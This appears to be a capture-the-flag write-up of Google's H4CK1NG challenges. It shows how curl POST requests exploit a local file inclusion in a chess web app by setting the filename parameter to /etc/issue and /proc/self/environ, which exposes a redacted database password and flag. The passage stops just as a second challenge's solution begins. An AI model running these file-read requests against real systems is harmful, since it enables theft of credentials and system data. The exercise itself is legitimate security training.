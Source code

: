 The load_baseboard() function is called when the START button is pressed.

```html
<button id="start" onclick="load_baseboard()"></button>
```

It sends a http POST request in background, using the `filename` parameter.

```shell
❯ curl 'http://hackerchess-web.h4ck.ctfcompetition.com/load_board.php' -X POST \
    --data 'filename=baseboard.fen'
Loading Fen: rnbqkbnr/pppppppp/8/8/8/8/PPPPPPPP/RNBQKBNR w KQkq - 0 1
```

Tweaking the value of this parameter, we get an empty reply. BUT, trying some well-known file on Linux, we get its content :)

```shell
❯ curl 'http://hackerchess-web.h4ck.ctfcompetition.com/load_board.php' -X POST \
    --data 'filename=/etc/issue' --output -
Loading Fen: Ubuntu 20.04 LTS \n \l
```

This means we have a (straightforward to exploit) [local file inclusion](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion) (LFI).

One of the first thing to do when you have an LFI is learning who you are and where you are. This can be done including `/proc/self/environ` :

```shell
❯ curl -s 'http://hackerchess-web.h4ck.ctfcompetition.com/load_board.php' -X POST \
    --data 'filename=/proc/self/environ' --output - | tr '\0' '\n' | head -10
Loading Fen: SERVER_NAME=hackerchess-web.h4ck.ctfcompetition.com
REDIRECT_DB_PASSWORD=***REDACTED***
REDIRECT_DB_HOST=chess-ai-mysql
SCRIPT_NAME=/cgi-bin/nsjail-php-cgi
REDIRECT_STATUS=200
GATEWAY_INTERFACE=CGI/1.1
REDIRECT_FLAG=https://h4ck1ng.google/solve/**REDACTED***
SERVER_SOFTWARE=Apache/2.4.41 (Ubuntu)
PATH_INFO=/load_board.php
DOCUMENT_ROOT=/web-apps/php
```

And here is my flag! Along with it, we get the DB password, and some juicy information about the technology used on the system… how cool is that?! >:D

### CHALLENGE 02

> After recent attacks, we've developed a search tool. Search the logs and discover what the attackers were after.
>
> Hint: Always search deeper.

[This log search](https://aurora-web.h4ck.ctfcompetition.com) tool looks very basic.

#### Solution
